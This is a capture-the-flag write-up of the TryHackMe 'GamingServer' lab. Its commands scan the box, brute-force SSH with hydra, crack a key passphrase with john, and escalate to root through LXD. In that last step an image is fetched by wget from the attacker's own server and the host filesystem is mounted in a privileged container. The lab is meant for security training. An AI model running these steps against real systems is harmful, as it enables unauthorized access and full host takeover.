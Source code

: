 ```yaml
---
title: TryHackMe - GamingServer
author: Bonface
date: 2024-02-09 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - http
  - gobuster
  - ssh
  - brute
  - lxd
image:
  path: /assets/img/try%20hack%20me%20/Easy/GamingServer/0.jpeg
  alt: GamingServer
---
```


# GamingServer

- An Easy Boot2Root box for beginners.  
- Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.  

# Tasks
- find the user flag and the root flag.  

# nmap

```sh
nmap -sV -sC -v 10.10.69.28
```

```sh
Scanning 10.10.69.28 [1000 ports]
Discovered open port 80/tcp on 10.10.69.28
Discovered open port 22/tcp on 10.10.69.28
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| 256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_ 256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# http_80

## ip `10.10.69.28`

## Gobuster

```sh
gobuster dir -u http://10.10.69.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![](../assets/img/try_hack_me/Easy/GamingServer/1.png)

## /secrets  
![](../assets/img/try_hack_me/Easy/GamingServer/2.png)  
I got a secret file that after downloading i found that it was a `ssh RSA`  
![](../assets/img/try_hack_me/Easy/GamingServer/3.png)  


![](../assets/img/try_hack_me/Easy/GamingServer/4.png)
surfing through the web i get an upload directory.
## /uploads
![](../assets/img/try_hack_me/Easy/GamingServer/5.png)

I downloaded the dict.lst file that contains a list of i think passwords or usernames.  
![](../assets/img/try_hack_me/Easy/GamingServer/6.png)

- Manifesto.txt file that is a  very useless manifesto that is only there to teach you poetry`



## source-code
Going back i got a comment from the dev.  
![](../assets/img/try_hack_me/Easy/GamingServer/7.png)


## so far we have  
- ssh RSA
- A dict.lst = i assume is a  wordlist
- A user : john 

# ssh_22

First attempt
----------------------------------------------
```sh
hydra -l john -P dict.lst 10.10.69.28 ssh 
```
![](../assets/img/try_hack_me/Easy/GamingServer/8.png)

-------------------------------------------------
Second Attempt
-------------------------------------------------
```sh
	ssh2john secretKey > secret  
	john --wordlist=dict.lst secret
```
![](../assets/img/try_hack_me/Easy/GamingServer/9.png)
---------------------------------------------------
Third Attempt
---------------------------------------------------
```sh
chmod 600 secretKey
ssh john@10.10.69.28 -i secretKey
```
This was much better.  
![](../assets/img/try_hack_me/Easy/GamingServer/10.png)

-----------------------------------------------------
Forth Attempt
-----------------------------------------------------
```sh
/usr/share/john/ssh2john.py secretKey > secret
sudo john secret -w=dict.lst
```
![](../assets/img/try_hack_me/Easy/GamingServer/11.png)

Now i have the passphrase `letmein`  
Later, back to my senses and spotted my mistakes,Can you??  

-------------------------------------------------------
Login to ssh john
-------------------------------------------------------
```sh
	sudo ssh john@10.10.69.28 -i secretKey
	#passphrase = letmein
```

And now i have a shell.

`ls` and `cat user.txt` to get the user flag.  


# PRIVILEGE ESCALATION
```sh
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We use a method called `Lxd Privilege Escalation`  
Privilege escalation through lxd requires the access of local account, Good thing for us since we have SSH access already.  
Note: the `most important condition` is that the user should be a `member of lxd group`.  

1. To start with we need to download the lxd-alpine image builder to our local machine:  
```sh
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
sudo ./build-alpine -a i686 #run the build-alpine
```
When you ls the directory you will see that you have the image file with the .gz extension.  

2.  we need to setup a simple http server and upload to the image file to the remote machine.  
```sh
python3 -m http.server
```
We can use wget on the remote machine to upload the .qz file.  
```sh
wget http://10.8.172.59:8000/alpine-v3.19-i686-20240201_2212.tar.gz
```

3. Once uploaded we next need to import the image into lxd.  
```sh
lxc image import alpine-v3.19-i686-20240201_2212.tar.gz --alias alpine
```
If we use the command, “lxc image list”, we can see that the image is now available on lxd.

4. Now we need to create a machine from the image.  
```sh
lxc init alpine privesc -c security.privileged=true
```
Where alpine is the image file and privesc is what I am calling the machine.  

5.  we need to add a hard drive to the machine, the privesc technique in this case looks to have the whole host
mounted in the `/mnt/root` and thus you have root access.  
```sh
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

As noted above the machine privesc is currently stopped, so we will need to start it:
```sh
lxc start privesc
```
To exploit the machine
```sh
lxc exec privesc /bin/sh
```

![](../assets/img/try_hack_me/Easy/GamingServer/12.png)
